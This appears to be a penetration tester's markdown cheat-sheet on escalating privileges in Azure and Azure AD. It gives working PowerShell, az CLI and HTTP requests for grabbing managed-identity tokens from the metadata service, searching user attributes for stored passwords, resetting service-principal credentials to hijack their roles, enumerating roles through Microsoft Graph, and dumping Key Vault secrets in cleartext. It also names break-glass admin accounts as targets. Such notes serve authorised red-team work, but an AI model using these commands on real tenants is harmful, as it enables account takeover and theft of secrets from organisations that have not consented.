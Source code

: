 # Privilege Escalation
- First step is determining what we can read
  - Key Vaults
  - VMs
  - Deployment scripts
  - AD user attribute data
  - Runbooks
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-privilege-escalation-using-managed-identities/

## Virtual machines
- If you have access to a VM it might actually have more privileges than your user in Azure
- VM can auth to Azure with a Managed Identity by requesting Oauth token from Azure Metadata Service URL at http://169.254.169.254/metadata/identity/oauth2/token
- RDP to VM, request token, and connect to Azure using AZ cli or Az PowerShell

## Ad user attributes
- User attributes and sensitive information

#### Request all attributes and look for password string
- Might also use token, secret, pass etc.
```
$users = Get-MsolUser; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

## Service Principal Hijacking
- There are over 200 default service principals in an O365 tenant
- None of them are listed in the Azure GUI portal
- An “Application Administrator” can change passwords or certificates for service principals… even the default ones
- Some interesting permissions as identified by Dirk-Jan Mollema: https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/
- Application Admin can’t add users to groups but can change the password of a service principal that can add users to groups.

#### List service principals as Application Administrator
```
Get-AzureAdServicePrincipal
```

#### Change password of service prinicpal
```
$spn = Get-AzureADServicePrincipal -SearchString "<SPN DISPLAY NAME>"
New-AzureADServicePrincipalPasswordCredential -objectid $spn.ObjectId -EndDate "12-31-2099 12:00:00" -StartDate "6-8-2018 13:37:00" -Value "<PASSWORD>"
```

- One way to quickly determine what service principals might be useful would be list out all roles for each service
- Not easily done through PowerShell Cmdlets
- Change password for a service principal
- Use cred to auth with Microsoft Graph scope
- Brute force all Object ID’s against Microsoft Graph endpoint that responds with role information
- Web request for auth to Microsoft Graph
```
POST /<tenant ID>/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com
client_id=<application 
ID>&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default&client_secret=
<service principal password>&grant_type=client_credentials
```
- A bearer token should be returned if auth was successful
- Then use the bearer token with the following request setting the service principal ObjectID against graph.windows.net
```
GET /beta/servicePrincipals/<Service Principal ObjectID> HTTP/1.1

Host: graph.microsoft.com
Authorization: Bearer <JWT Bearer Token Value>
```
- Response contains role information
- Next, something like Burp’s Intruder could be used to brute force each service principal ID against the Microsoft Graph endpoint URL
```
$apps = Get-AzADServicePrincipal
$apps.Id
```
- Now we can choose what level of access we want and change the pass for that service principal

## Break glass accounts
- Another PrivEsc target is Azure “Break Glass” administrative accounts
- Microsoft recommends not setting up MFA for them
- Two accounts are usually recommended to be set up
- If you can determine which ones are the break glass they can be good targets

## Azure key vaults
#### List key vaults which current user has view access too
```
az keyvault list --query '[].name' --output tsv
```

#### Try to access keyvault
```
az keyvault secret list --vault-name <KEYVAULT> --query '[].id' --output tsv
```

#### Read cleartext secret
```
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

#### Give access if contributer role
```
az keyvault set-policy --name <KEYVAULT NAME> --upn <CONTRIBUTER USERNAME> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list
```

#### Powerzure get keyvault contents
```
Get-AzureKeyVaultContent
```
